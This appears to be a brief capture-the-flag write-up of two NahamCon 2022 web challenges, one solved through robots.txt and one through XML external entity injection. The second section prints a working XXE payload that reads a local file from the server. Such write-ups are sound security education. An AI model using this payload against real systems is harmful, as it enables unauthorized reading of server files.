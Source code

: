 
## Jurrasic Park (Web)

![Screenshot of Jurrasic Park](/media/nahamcon-ctf-2022-park-1.png)

The easiest web challenge, *Jurrasic Park* had a pointer to the flag on the `robots.txt` page.

### Navigation

#### robots.txt

![Screenshot of Jurrasic Park](/media/nahamcon-ctf-2022-park-2.png)

#### /ingen

![Screenshot of Jurrasic Park](/media/nahamcon-ctf-2022-park-3.png)

### Flag


![Screenshot of Jurrasic Park flag](/media/nahamcon-ctf-2022-park-4.png)

---

## EXtravagant (Web)

![Screenshot of EXtravagant](/media/nahamcon-ctf-2022-extravagant-1.png)

*EXtravagant* (web) was vulnerable to [XXE](https://portswigger.net/web-security/xxe)

### Crafting an Exploit

[PortSwigger's XXE page](https://portswigger.net/web-security/xxe) helped me create the following exploit to reveal the flag:

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]><root>&test;</root>
```

### Using the Exploit

#### Uploading

![Screenshot of uploading EXtravagant exploit XML](/media/nahamcon-ctf-2022-extravagant-2.png)

#### Viewing

![Screenshot of viewing EXtravagant exploit XML](/media/nahamcon-ctf-2022-extravagant-3.png)

### Flag

Clicking `Submit` revealed the flag on the webpage.

![Screenshot of EXtravagant flag](/media/nahamcon-ctf-2022-extravagant-4.png)